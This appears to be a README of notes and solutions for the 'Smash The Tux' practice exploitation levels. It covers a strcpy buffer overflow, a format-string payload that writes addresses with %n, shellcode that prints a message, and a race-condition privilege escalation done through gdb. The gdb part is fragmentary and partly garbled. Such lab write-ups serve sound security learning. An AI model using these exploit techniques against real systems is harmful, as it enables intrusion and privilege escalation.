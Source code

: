 
# Smash The Tux

##0x00
- strcpy buffer overflow

simply pass in the large buffer and point to the address of the start of the buffer for your boomcode


##0x01
- format string, no validation

```bash
open('/tmp/foo.bin', 'wb').write("\xcc\xcc\xcc\xcc" + '\x54\x97\x04\x08' + '\x55\x97\x04\x08' + '\x56\x97\x04\x08' + '\x57\x97\x04\x08'+ 'A'*12 + '%5$n' + 'A'*0xD3 + '%6$n' + 'foobarbaZbar' + '%7$n' + 'A'*0xc0 + '%8$n' )
```

- some boom code
```bash
SHELLCODE += '\xeb\x13\x59\x31\xc0\xb0\x04\x31\xdb\x43\x31\xd2\xb2\x0f\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe8\xff\xff\xff\x62\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6d\x21\x0a\x0d'
```

0x01
- privilege escalation
- theres a race conditions for uid and accessing the file, so we will override the memory via gdb as user and show it works

objdump at stat, first add, change argv to be ".readthis"

bp call to fgets
gdb > x/16s 0xbset {char [size]}

`x/16s set charset {char[0x0a]} 0xbfffff8f5=".readthis"`


{charset ".readthis"

